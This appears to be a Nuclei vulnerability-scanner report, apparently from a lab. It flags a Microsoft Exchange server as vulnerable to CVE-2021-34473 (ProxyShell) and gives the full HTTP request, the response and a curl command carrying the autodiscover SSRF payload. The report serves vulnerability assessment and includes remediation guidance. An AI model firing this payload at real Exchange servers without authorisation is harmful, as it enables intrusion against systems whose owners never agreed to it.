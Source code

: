 ### Exchange Server - Remote Code Execution (CVE-2021-34473) found on https://10.10.252.86
---
**Details**: **CVE-2021-34473**  matched at https://10.10.252.86

**Protocol**: HTTP

**Full URL**: https://10.10.252.86/autodiscover/autodiscover.json?@test.com/owa/?&Email=autodiscover/autodiscover.json%3F@test.com

**Timestamp**: Thu Apr 6 23:00:16 +0100 BST 2023

**Template Information**

| Key | Value |
|---|---|
| Name | Exchange Server - Remote Code Execution |
| Authors | arcc, intx0x80, dwisiswant0, r3dg33k |
| Tags | cve, cve2021, ssrf, rce, exchange, kev |
| Severity | critical |
| Description | Microsoft Exchange Server is vulnerable to a remote code execution vulnerability. This CVE ID is unique from CVE-2021-31196, CVE-2021-31206.<br> |
| Remediation | Apply Microsoft Exchange Server 2019 Cumulative Update 9 or upgrade to the latest version. |
| CVSS-Metrics | [CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H](https://www.first.org/cvss/calculator/3.1#CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H) |
| CVE-ID | [CVE-2021-34473](https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2021-34473) |
| CVSS-Score | 9.80 |

**Request**
```http
GET /autodiscover/autodiscover.json?@test.com/owa/?&Email=autodiscover/autodiscover.json%3F@test.com HTTP/1.1
Host: 10.10.252.86
User-Agent: Mozilla/5.0 (Windows NT 5.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2224.3 Safari/537.36
Connection: close
Accept: */*
Accept-Language: en
Accept-Encoding: gzip


```

**Response**
```http
HTTP/1.1 302 Found
Connection: close
Content-Length: 673
Cache-Control: no-cache, no-store
Content-Type: text/html; charset=utf-8
Date: Thu, 06 Apr 2023 22:00:15 GMT
Expires: -1
Location: /owa/auth/errorfe.aspx?httpCode=500&msg=3529056431&msgParam=NT+AUTHORITY%5cSYSTEM&owaError=Microsoft.Exchange.Clients.Owa2.Server.Core.OwaADUserNotFoundException&owaVer=15.2.858.2&be=WIN-12OUO7A66M7&ts=133252920155753728&fe=WIN-12OUO7A66M7&reqid=02837b7e-5411-4e2c-9a5f-d6cf8502ed6f&creqid=&cid=&rt=Form15&et=DefaultPage&pal=0&dag=DagNotFound&forest=thm.local&te=0&refurl=https%3a%2f%2fwin-12ouo7a66m7.thm.local%3a444%2fowa%2f%3f%26Email%3dautodiscover%2fautodiscover.json%253F%40test.com
Pragma: no-cache
Request-Id: 02837b7e-5411-4e2c-9a5f-d6cf8502ed6f
Server: Microsoft-IIS/10.0
Set-Cookie: ClientId=0EDF33DD3AF54A8EA4645B0BEFEB35D0; expires=Sat, 06-Apr-2024 22:00:15 GMT; path=/; secure
Set-Cookie: X-BackEndCookie=; expires=Tue, 06-Apr-1993 22:00:15 GMT; path=/autodiscover; secure; HttpOnly
X-Aspnet-Version: 4.0.30319
X-Backend-Begin: 2023-04-06T15:00:15.509
X-Backend-End: 2023-04-06T15:00:15.588
X-Beserver: WIN-12OUO7A66M7
X-Calculatedbetarget: win-12ouo7a66m7.thm.local
X-Content-Type-Options: nosniff
X-Diaginfo: WIN-12OUO7A66M7
X-Feserver: WIN-12OUO7A66M7
X-Owa-Diagnosticsinfo: 78;8;0
X-Owa-Error: Microsoft.Exchange.Clients.Owa2.Server.Core.OwaADUserNotFoundException,Microsoft.Exchange.Clients.Owa2.Server.Core.OwaADUserNotFoundException
X-Owasupplevel: TenantAdmin
X-Powered-By: ASP.NET
X-Ua-Compatible: IE=EmulateIE7

<html><head><title>Object moved</title></head><body>
<h2>Object moved to <a href="/owa/auth/errorfe.aspx?httpCode=500&amp;msg=3529056431&amp;msgParam=NT+AUTHORITY%5cSYSTEM&amp;owaError=Microsoft.Exchange.Clients.Owa2.Server.Core.OwaADUserNotFoundException&amp;owaVer=15.2.858.2&amp;be=WIN-12OUO7A66M7&amp;ts=133252920155753728&amp;fe=WIN-12OUO7A66M7&amp;reqid=02837b7e-5411-4e2c-9a5f-d6cf8502ed6f&amp;creqid=&amp;cid=&amp;rt=Form15&amp;et=DefaultPage&amp;pal=0&amp;dag=DagNotFound&amp;forest=thm.local&amp;te=0&amp;refurl=https%3a%2f%2fwin-12ouo7a66m7.thm.local%3a444%2fowa%2f%3f%26Email%3dautodiscover%2fautodiscover.json%253F%40test.com">here</a>.</h2>
</body></html>

```

References: 
- https://msrc.microsoft.com/update-guide/vulnerability/cve-2021-34473
- https://blog.orange.tw/2021/08/proxylogon-a-new-attack-surface-on-ms-exchange-part-1.html
- https://peterjson.medium.com/reproducing-the-proxyshell-pwn2own-exploit-49743a4ea9a1
- https://nvd.nist.gov/vuln/detail/cve-2021-34473

**CURL Command**
```
curl -X 'GET' -d '' -H 'Accept: */*' -H 'Accept-Language: en' -H 'User-Agent: Mozilla/5.0 (Windows NT 5.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2224.3 Safari/537.36' 'https://10.10.252.86/autodiscover/autodiscover.json?@test.com/owa/?&Email=autodiscover/autodiscover.json%3F@test.com'
```
---
Generated by [Nuclei 2.9.0](https://github.com/projectdiscovery/nuclei)